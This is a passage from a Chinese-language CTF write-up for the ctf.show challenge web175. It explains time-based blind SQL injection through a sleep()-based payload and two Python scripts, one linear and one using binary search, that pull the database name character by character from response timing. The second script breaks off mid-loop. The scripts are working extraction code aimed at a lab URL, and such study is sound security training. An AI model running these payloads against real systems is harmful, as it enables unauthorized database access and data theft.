 然后一步一步进行缩小 如果错误 ，那么就说明太大了 我们就开始将 high设置为 mid的值 即80

然后需要重新设置mid的值

## web175  时间注入

这里我们能够发现 啥回显都没有了 这里什么东西都没得 1 2 3 都没数据

那么这里如何注入呢 我们可以通过 sleep 进行时间盲注

我们先来了解一下 上面的布尔注入

```csharp
1' and if(ascii(substr((select database()),1,1))>1,sleep(2),1)-- +
```

我们可以发现 时间盲注 其实就是在 if中增加了 sleep的值 让如果>1 就睡2秒 否则回显1

所以我们可以通过时间的计算来进行获取

```cobol
import requests
 
import  time
 
url = "http://5653e881-7c4e-48f9-95e5-8cc4647532b6.challenge.ctf.show/api/v5.php?id="
payload = "1' and if(ascii(substr((select database()),{0},1))={1},sleep(2),1)-- +"
flag =''
for i in range(1,50):
    for j in range(98,128):
        payload1 = payload.format(i,j)
        # print(payload1)
        start_time = time.time()
        re = requests.get(url = url+payload1)
        stop_time = time.time()
        sub_time = stop_time - start_time
        if sub_time > 1.8:
            flag += chr(j)
            print(flag)
            break
```

这里我们就实现了最简单的时间盲注脚本 然后我们可以开始写二分法的

其实这里的二分法 就是判断条件改为时间即可

```cobol
import requests
 
import  time
 
url = "http://5653e881-7c4e-48f9-95e5-8cc4647532b6.challenge.ctf.show/api/v5.php?id="
payload = "1' and if(ascii(substr((select database()),{0},1))>{1},sleep(2),1)-- +"
flag =''
for i in range(1,50):
    high = 128
    low = 32
    mid = (high+low)//2
    while (high>low):
        payload1 = payload.format(i,mid)
        # print(payload1)
        start_time = time.time()
        re = requests.get(url = url+payload1)
        stop_time = time.time()
        sub_time = stop_time - start_time
        if sub_time > 1.8:
            low = mid+1
        else:
            high = mid
```